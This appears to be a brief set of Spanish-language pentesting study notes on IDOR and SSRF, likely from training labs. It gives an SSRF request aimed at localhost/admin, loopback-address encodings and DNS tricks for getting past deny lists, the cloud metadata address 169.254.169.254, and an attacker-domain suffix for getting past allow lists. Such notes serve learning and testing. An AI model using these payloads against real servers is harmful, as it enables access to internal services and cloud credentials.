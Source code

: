 ## Insecure Direct Object Reference (IDOR)

Se usa un id para para aceder a un objeto de la BD y no se revisan los permisos del mismo.

	PUT /user/1/pass


## Server-Side Request Forgery (SSRF) 

	Hacer peticiones a algun recuerso dentro de la red.


```bash
	POST /product/stock HTTP/1.0
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 118

	stockApi=http://localhost/admin
```

### Bypass

Deny lists 

	Direcciones alternativas
		0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001
	Cambiar DNS
		127.0.0.1 => 127.0.0.1.nip.io
	Bloqueos de direcciones interesantes en cloud 	
		Tienen metadatos de los grupos de seguridad, eventos
		169.254.169.254
		: fd00:ec2::254

Allow lists

	Cambiando los DNS 
	de
	https://website.thm
	a
	https://website.thm.attackers-domain.thm








